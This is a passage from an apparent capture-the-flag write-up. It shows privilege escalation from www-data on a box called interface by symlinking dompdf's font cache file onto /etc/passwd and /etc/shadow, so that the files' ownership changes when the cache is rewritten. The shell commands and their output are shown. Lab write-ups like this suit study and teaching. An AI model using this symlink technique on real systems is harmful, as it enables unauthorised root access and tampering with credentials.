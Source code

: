 ```
  'times' => array(
    'normal' => $fontDir . '/Times-Roman',

```

It’s owned by www-data, and has a clean version of the expected file.

### Overwrite shadow

#### File Fails

There are a handful of root owned files that I could overwrite to get execution, but many come with reasons why they won’t work. For example, `/etc/sudoers` won’t work unless it’s owned by root:

```

www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ sudo -l
sudo: /etc/sudoers is owned by uid 33, should be 0
sudo: no valid sudoers sources found, quitting
sudo: unable to initialize policy plugin

```

Similarly, `/root/.ssh/authorized_keys` will just be ignored unless it’s owned by root and permissions 600.

I can try `/etc/passwd`, but it breaks things, and doesn’t quite work. The group changes, but the user does not:

```

www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ln -sf /etc/passwd dompdf_font_family_cache.php          
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l /etc/passwd
-rw-r--r-- 1 root www-data 2863 Feb 13 21:10 /etc/passwd

```

And now, any auth or user-related operations on the box are dorked. I’ll need a reset.

#### shadow

The option that works is `/etc/shadow`. I’ll update the link to point to it:

```

www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ln -sf /etc/shadow dompdf_font_family_cache.php

```

After a few minutes, it’s overwritten with the PHP, and the ownership has changed:

```

www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l /etc/shadow
-rw-r----- 1 www-data www-data 2863 Feb 13 21:15 /etc/shadow

```
